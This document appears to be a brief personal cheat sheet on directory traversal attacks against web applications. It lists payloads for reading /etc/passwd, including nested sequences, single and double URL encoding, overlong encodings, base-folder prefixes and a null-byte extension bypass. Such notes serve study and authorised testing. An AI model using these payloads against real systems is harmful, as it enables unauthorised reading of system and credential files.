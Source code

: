 # Quick Wins
1. Capture requests for resources when loading a page (such as images when clicking on a product)
	- Send to Burp
	- Try `../../../etc/passwd` on the request for the file
## Bypassing obstacles
1. Might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.
2. You might be able to use nested traversal sequences, such as ``....//....//....//etc/passwd`` or `....\/....\/....\/etc/passwd`
3. In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input, you can sometimes bypass by URL encoding, or even double URL encoding, the `../` characters
	- results in `%2e%2e%2f` and `..%252f..%252f..%252fetc/passwd`
	- `..%c0%af` or `..%ef%bc%8f` may also work
4. An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`
	- May have to start with `/var/www/images` and go from there with `../../etc/passwd`
5. May require a specific file extension at the end of the request such as `png`
	- May be able to bypass with a null byte: `filename=../../../etc/passwd%00.png`